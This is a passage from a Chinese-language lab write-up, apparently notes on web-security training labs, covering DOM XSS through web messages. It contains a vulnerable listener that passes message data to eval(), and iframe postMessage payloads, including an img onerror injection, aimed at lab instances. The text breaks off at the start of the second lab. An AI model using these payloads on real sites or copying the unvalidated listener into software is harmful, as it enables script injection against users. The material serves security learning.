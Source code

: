 
> 
<h3>3、使用Web消息作为攻击源构建攻击</h3>
<pre><code>示例代码：
&lt;script&gt;
window.addEventListener('message', function(e) {
  eval(e.data);
});
&lt;/script&gt;</code></pre>
这是易受攻击的，因为攻击者可以通过构造以下内容来注入JavaScript负载iframe：
<pre>`&lt;iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')"&gt;`</pre>
由于事件侦听器不验证消息的来源，并且postMessage()方法指定了targetOrigin "*"，因此事件侦听器接受有效负载并将其传递到接收器，在本例中为eval()函数
<hr/>
涉及实验：<br/> 实验1：使用Web消息的DOM XSS<br/> 实验2：使用Web消息和JavaScript URL的DOM XSS


> 
<h3>实验1：使用Web消息的DOM XSS</h3>
信息：
1、本实验演示一个简单的Web消息漏洞
2、完成实验：使用漏洞攻击服务器向目标站点发布一条消息，使其调用print()函数
<hr/>
part1：
主页包含侦听Web消息的addEventListener()调用


转到漏洞利用服务器并将以下iframe添加到正文（添加自己的实验室ID）<br/>    
<pre><code>&lt;iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('&lt;img src=1 onerror=print()&gt;','*')"&gt;

我的是：
&lt;iframe src="https://0a4f00a403524623c3000ce5004900f8.web-security-academy.net/" onload="this.contentWindow.postMessage('&lt;img src=1 onerror=print()&gt;','*')"&gt;</code></pre>
原理：
加载iframe时，postMessage（）方法向主页发送一条Web消息。事件侦听器用于提供广告，它获取Web消息的内容并将其插入ID为ads的div中。但在本例中，它插入img标记，该标记包含无效的src属性。这会抛出一个错误，导致onerror事件处理程序执行我们的有效负载
<hr/>
part2:<br/> 存储漏洞并将其发送给受害者


完成实验



---


> 
<h3>实验2：使用Web消息和JavaScript URL的DOM XSS</h3>
信息：
1、本实验演示一个由Web消息触发的基于DOM的重定向漏洞
2、完成实验：在攻击此漏洞的攻击服务器上构建一个HTML页面并调用print()函数
<hr/>
part1:
主页包含侦听Web消息的addEventListener()调用。JavaScript包含一个有缺陷的indexOf()检查，该检查在Web消息中的任何位置查找字符串"http："或"https："。它还包含sink location.href。
